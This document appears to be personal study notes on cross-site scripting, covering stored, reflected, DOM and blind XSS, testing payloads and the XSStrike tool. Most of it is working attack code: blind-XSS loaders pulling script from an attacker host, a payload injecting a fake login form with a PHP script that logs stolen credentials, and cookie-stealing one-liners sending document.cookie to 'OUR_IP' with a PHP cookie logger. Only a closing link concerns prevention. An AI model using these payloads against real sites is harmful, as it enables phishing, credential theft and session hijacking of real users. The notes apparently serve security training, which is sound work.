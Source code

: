 >**ℹ️ Info:**
>
> Check if the messages return our text input in it.

## Stored XSS
If our payload gets saved in the back end of the web page, we have stored XSS.

## Reflected XSS
If our payloads doesn't get saved in the back end of the web page but it gets processed by the back end, we have reflected XSS.

>**ℹ️ Info:**
>
>Check the network tab to check if it's server-side.
>
> We can send our payload to a victim by checking what is being used to process it, then
> adding the payload in the parameter
> Example:
>  `http://IP/index.php?task=<script>alert(window.origin)</script>`.

## DOM XSS
If our paylods doesn't get processed server side, we have DOM XSS
>**ℹ️ Info:**
>
> We can look for confirmation of `DOM XSS` by checking the input code for functions similar to :
> - `document.write()` or `add()`
> - `DOM.innerHTML` or `after()`
> - `DOM.outerHTML` or  `append()`
> 
> Example:
> `document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);`

## Blind XSS
We may a XSS vulnerability on a we don't have access to, such ass:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

To check for them we have to set up a listening service that will receive the petitions our payload makes:
- `sudo php -S 0.0.0.0:80`

Then the payload must have some type of request to our service:
- `<script src=http://OUR_IP/script.js></script>`
- `'><script src=http://OUR_IP/script.js></script>`
- `"><script src=http://OUR_IP/script.js></script>`
- `javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP/script.js\';document.body.appendChild(a)')`
- `<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP/script.js");a.send();</script>`
- `<script>$.getScript("http://OUR_IP/script.js")</script>`

If we get a hit back we have a vulnerable parameter.


## XSS Testing Payloads
> ⚠️ **PAY ATTENTION:**
> 
> Make sure to check the source code to see how our input is handled!
> It's important to understand how the code works to build an efficient payload!

| Payload | Description |
|---------|-------------|
| `<script>alert(window.origin)</script>` | Returns the page URL |
| `<script>print()</script>` | Opens the print menu |
| `<img src="" onerror=alert(window.origin)>` | DOM test payload (Works on the others) |
| [XSS List payloadbox](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt) | Payload List |
| [XSS List PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)| Payload List |

## XSS Strike
https://github.com/s0md3v/XSStrike

Automated tool to find XSS.
````bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
````

> ⚠️ **TODO:**
> 
> Create own XSS identifier script.
> Idea is for it to take URL and input parameters then run a XSS payload wordlist on the parameters and compare each iteration with the original code to check for changes.

## Phishing
This XSS payload will add a login form and remove an element from the page, sending the credentials to our PHP back-end server:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
This is the PHP back-end server, after receiving the credentials the victim will be redirected to the legitimate page:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```


## Session Hijacking
We can steal cookies of the victim by creating our `script.js` file with one of these two payloads:
- `document.location='http://OUR_IP/index.php?c='+document.cookie;`
- `new Image().src='http://OUR_IP/index.php?c='+document.cookie;`
- `fetch("http://OUR_IP/index.php?c"+document.cookie)`

Now the server back-end:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Start the server:
- `sudo php -S 0.0.0.0:80`

We can use a payload like this to send the victim:
- `<script src=http://OUR_IP/script.js></script>`

## XSS Prevention
https://academy.hackthebox.com/module/103/section/1009